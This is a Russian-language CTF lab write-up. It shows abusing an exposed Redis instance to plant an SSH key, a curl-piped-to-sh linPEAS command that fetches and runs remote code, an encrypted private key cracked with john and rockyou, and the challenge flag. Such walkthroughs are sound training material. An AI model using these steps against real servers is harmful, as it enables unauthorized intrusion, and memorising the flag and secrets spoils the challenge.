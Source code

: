 Итак, начнём


Для начала просканируем порты:

![](./imgs/nmap.jpg)

Мы выяснили что у нас открыты порты:

22 и 2222 - для доступа по ssh (нам пока не интересен , т.к у нас нет ни пароля, ни ключа)

80(http) и 443(https) (тоже не интересует (принадляжат какому-то сайту))

6379 - redis (а вот это уже интересно)


Так мы узнали что здесь стоит БД-redis, и нам даже дали пароль к ней: ```surctfredis```

А теперь нам нужно узнать как к ней подключиться:

![](imgs/redis_how_to_connect.jpg)

Так теперь нам нужно установить redis-tools , в котором есть утилита redis-cli для подключения к БД redis:

![](imgs/redis_tools_install.jpg)

Теперь можно попробовать подключиться:

![](imgs/rediscliconn.jpg)

Ураа мы подключились, но что дальше?

Дальше нам нужно найти RCE эксплойт (Remote Code Execution):

![](imgs/redisrceexplotation.jpg)

![](imgs/how_to_add_your_public_sshkey.jpg)

Для начала сгенерируем свой SSH ключик

![](imgs/sshkeygen.jpg)

Затем закинем его в файлик перед этим добавив в него пустые строки в начале и в конце, а также импортируем его в redis:

![](imgs/savepubkeyastxtwithnewlines_and_importthemtoredis.jpg)

Есть! Мы сохранили наш ключик в ключ(переменную) с названием ssh_key

Теперь снова подключимся к редису и попробуем сменить нашу директорию на .ssh/ , у пользователя redis:

![](imgs/redissetconfigdirtosshfolderfailure.jpg)

Не получилось из-за того что конфиг защищён

Ладно, тогда посмотрим где мы есть:

![](imgs/configsshNICE.jpg)

Ого, так здесь по дефолту стоит папка с ключами, ничоси 0_o.

Тогда просто сохраним и проверим наш ключик: 

![](imgs/YeahWeDidIt.jpg)

Вроде получилось, попробуем подключиться по ssh c нашим ключиком:

![](imgs/NiceSSH.jpg)

Есть! Ураааа, мы подключены.

Теперь нам нужно добраться до пользователя test.

Есть такая утилита- linPEAS, она нужно чтобы посмотреть возможные уязвимости [ссылка](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS):

Вот команда для быстрого старта linPEAS 

>  curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

Ну что, запускаем и смотрим.

Где то в серидине она выдала нам ключик от пользователя test:

![](imgs/sshbackupkeyfound.jpg)

Сохраним его командой:

>echo "
>-----BEGIN RSA PRIVATE KEY-----
>Proc-Type: 4,ENCRYPTED
>DEK-Info: AES-128-CBC,6DE64BB52B779C56DC5B28F04988FB4C
>
>+eGzLWPQCs2RC0gu94QzDHLJEsck9qkm5LgqOAoHGjrShGtb80XODWHdzE+PADUL
>r4dUdfhV4+n+udALipoaYcwYDZnqUzBqSRjG9/4baisuoYK6PNki8kXm5JAbv5gG
>8bSwCKITctOHX57340RNsEdZPYjz0bDzRTd1Bqv5OALChtBxXrzxIG41Ud6ydpgQ
>kR4Xjq2l0j58sUOkDPkyTwBvy/gWenMcKYBDEPNTbaSZkstqJXBKGsSGhmLlUhEB
>em01BwMAVbZROr22XkbIjEiXwPNgSMKFaCI+mShB4/KiflogZWPqdE0MYOTiVPuK
>J1zAfYf7fi85Dj9XjEJicmE/6TkY1VdSj6n8XcIrxcghXt5Lbfi5LR7k5khh+P1d
>qBFhgAy3hGEJzx+zFWMXfbgxVs8gN9BuJtJDcAj6t6zJrJ+UMAPGwfq+u/csem/T
>AQPCJA2En/iRfzCYmqnFw9A7jCXzvUhyhKw6/idxZDQ8jf8hv0cVCeZPHcU2RlzB
>+30s0P81C2LOGNmyR5K/9qPBjTnTYoCReUtMbmzoFqApTCF20EzGWFAMwIaOYfBJ
>bnBf9m8QK1l0omDOhc2n4wO0+p+6lHlflUbURqJiuDkHgqVIluX+c5sCprzmAp8Z
>9DucdBhkDujj3NVN5VKN47v8TI9u0lGqbFJx3qLDhAFyizAJovSrC/VXAFm9wQc/
>13Z+xmQ1QKcYVfOsF50orVjhYQe1xrxEeCToagH+1aMFbqpVW35hA05gGWcLkr78
>tolI4IOaOhjbcvMmv+FyZXWQPhrfnj0EWpVy5mvK7CdyQKJqpUqCqqmgwJcG3Kbe
>bwsr/SInYdhHPHINcZDuq/ik55ekk6RMRAPcfpYuMOjKDKzHqzCoj1oFT3UrYaAR
>w37GGqknQi1DJDHTc+slsx7YFFPlUBA9/m9kxXg0DyiAHLiuv5pxeBjRXM52YPSh
>fa255QTwfiNCQeixUauxjQcIR2JRJnMjRpefKdt/xdGEBwNrKJdLP38olZNV+TNs
>lzzZkw72YhDfUfWxAMNW48JDK96V+uaHc0WrX5HadzIx/mlueBH2tG/PJNDKaXAf
>ri+v8N0MZhBlqeNweGhBUMOL87OiSd2zV2sWHsGF/V+ociC0PjBUR3XrNd6YKQM0
>4p1yDWfmkFqAmd/+Bf9t+wvGvEgkAl0JY1nuc69mSKmI+CRbBnG4lvcDq6h5sX66
>VwqUugTQtQUzHrnaGy46AK/a199F21wnSsLXWGBCFSIjgQ2rGDEMmwc09PYCuH1L
>xsTYTXpq0R1ZQkwK/eX3MSBTTcYvMLt13Rukz2YhLt6gFvw3bAVx9hYAeIV36/Fd
>/hdzSXQ86DbIr7v839gTX5CO0+OsMzukHfqg1SCvB3BFLu4SEmvBD5pmTy6LGIjt
>HZKz2Al0YUSrpV0rwEsQ2701S9VHnDPpTeeUsJFuLOq3792F308q7n6BJHby++my
>N/q2JNbjSmmlUcJPttlV8C9cyTCEXpM1lnz8HHyJPvUvfmX2frB1BdHPKKb5SrjZ
>Ujf6vp7pIjsgq9nEVCSIqymqde3mBrTEEB4qS0hTn/fSu27PcYeuiDh07XQ9FX6W
>-----END RSA PRIVATE KEY-----" > hellokey

![](imgs/keyssh.jpg)

Поменяем ему права доступа на 600 и попробуем подключиться:

![](imgs/sshtrytoconnectfixpermissionsandpassword.jpg)

О нет! Он зашифрован , будем брутфорсить.

Для начала распакуем словарь rockyou, в kali linux он по умолчанию находится в /usr/share/wordlists/rockyou.txt.gz :

![](imgs/unpackdefaultrockyouinkali.jpg)

Теперь переделаем наш ключ в хэш для john:

![](imgs/ssh2john.jpg)

Теперь можно брутить:

![](imgs/bruteforce.jpg)

Теперь мы знаем пароль от ключа, попробуем подключиться по ssh с паролем - pokemon, и взять флаг в user.txt:

![](imgs/connect_ls_catusertxt_and_getflag.jpg)

Урра наш флаг:

>surctf_f1rst_p3ntest
